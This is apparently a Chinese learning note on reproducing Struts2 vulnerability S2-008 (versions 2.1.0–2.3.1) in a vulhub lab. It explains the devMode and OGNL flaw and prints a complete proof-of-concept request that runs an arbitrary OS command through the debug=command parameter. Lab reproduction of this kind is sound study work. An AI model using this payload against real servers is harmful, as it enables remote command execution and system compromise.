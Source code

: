~~~~
title: 漏洞复现学习（s2-008）
tags: 
  - 渗透测试
  - 漏洞复现
  - struts2
categories: 
  - 渗透测试
  - 漏洞复现
  - struts2
~~~~



# Struts2漏洞S2-008复现

~~~~text
原理：S2-008 涉及多个漏洞，Cookie 拦截器错误配置可造成 OGNL 表达式执行，但是由于大多 Web 容器（如 Tomcat）对 Cookie 名称都有字符限制，一些关键字符无法使用使得这个点显得比较鸡肋。另一个比较鸡肋的点就是在 struts2 应用开启 devMode 模式后会有多个调试接口能够直接查看对象信息或直接执行命令，但是这种情况在生产环境中几乎不可能存在，所以还是很鸡肋。

影响版本：Struts 2.1.0 – 2.3.1
~~~~

## 漏洞搭建

~~~
https://github.com/vulhub/vulhub/tree/master/struts2/s2-008
~~~

## poc构建

例如`?debug=command&expression=<OGNL EXP>`在`devMode`mode中添加参数，OGNL表达式会直接执行，可以执行命令：

~~~~
devmode.action?debug=command&expression=(%23_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)%3f(%23context[%23parameters.rpsobj[0]].getWriter().println(@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(%23parameters.command[0]).getInputStream()))):xx.toString.json&rpsobj=com.opensymphony.xwork2.dispatcher.HttpServletResponse&content=123456789&command=id
~~~~

![image-20220330214444897](E:\学习\picture\image-20220330214444897.png)
